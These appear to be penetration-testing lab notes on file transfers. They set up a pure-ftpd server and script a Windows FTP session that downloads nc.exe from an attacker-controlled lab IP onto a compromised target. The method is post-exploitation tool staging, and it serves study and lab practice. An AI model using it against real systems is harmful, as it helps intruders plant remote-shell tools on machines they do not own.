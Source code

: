 # File Transfers

sudo apt install pure-ftpd

```bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd
```
sudo cp /usr/share/windows-resources/binaries/nc.exe /ftphome/

We could make a text file that contains the FTP process:
```
open 192.168.119.153
USER offsec
lab>
bin
GET nc.exe
bye
```

And transfer it to the target:
`ftp -v -n -s:ftp.txt`

* `-v` to suppress output.
* `-n` to suppress automatic login.
* `-s` to indicate the filename of commands.

